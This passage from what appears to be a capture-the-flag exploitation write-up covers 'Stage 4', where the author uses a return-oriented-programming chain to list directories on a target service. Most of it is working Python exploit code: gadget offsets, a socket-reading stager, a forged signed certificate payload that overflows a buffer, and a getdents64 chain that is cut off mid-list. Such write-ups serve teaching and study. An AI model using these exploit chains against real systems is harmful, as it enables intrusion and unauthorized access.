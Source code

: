 That's it for stage 3!

## Stage 4

It's not completely clear where to go now, so I just decided to use the new-found ability to ROP to explore the filesystem. I made a simple "stager" ropchain that read a longer ropchain into memory, and used that to load a ropchain to call `getdents64` on arbitrary directories. I also had the ropchain rerun the stager at the end, to enable interactivity. Here's how that looks ([`lsdir.py`](files/stage4/lsdir.py)):

```python
pop_rdi = libcbase + 0x0007a307
pop_rsi = libcbase + 0x0007a0ff
pop_rdx_rcx_rbx = libcbase + 0x001025ad
mov_rdx_rax = libcbase + 0x000425cf
pop_rsp = libcbase + 0x00054d0d
ropspace = heapbase + 0x10000
dataspace = heapbase + 0x18000
inc_rax = libcbase + 0x000cfb20

# fds: 0=stdin, 1=stdout, 2=stderr, 3=serial_port, 4=server_sock, 5=client_sock, 6=dbg
roploop = [
    # read(5, ropspace, 0x8000)
    pop_rdi, 5,
    pop_rsi, ropspace,
    pop_rdx_rcx_rbx, 0x8000, 0, 0,
    exebase + 0x21c0,
    # pop rsp
    pop_rsp, ropspace
]
payload = flat(roploop) + b"perms=63&user=x"
sig = sign(payload)
payload = payload.replace(b"\0", b"\n") + b"&sig=%d&" % sig
payload = payload.ljust(0x208, b"X")
assert len(payload) == 0x208
payload = payload + p64(0x41) + struct.pack("<QQQQQQ", 1, 0xff, certaddr, 0, signptr(pop_rdi), 0)
send_cmd("CERT", base64.b64encode(payload), reply=False)

@dataclass
class DirEntry:
    inode: int
    offset: int
    ftype: int
    name: str

def getdents(dirname):
    ropdata = b""
    offset = 0x200
    def add_data(x):
        nonlocal ropdata
        addr = ropspace + offset + len(ropdata)
        ropdata += x
        return addr

    rop = [
        # open(dirname, O_DIRECTORY)
        pop_rdi, add_data(dirname.encode() + b"\0"),
        pop_rsi, 0o0200000,
        exebase + 0x22d0,
        # rax = getdents64(7, dataspace, 0x8000)
        pop_rdi, 7,
        pop_rsi, dataspace,
        pop_rdx_rcx_rbx, 0x8000, 0, 0,
        libcbase + 0xde2d0,
```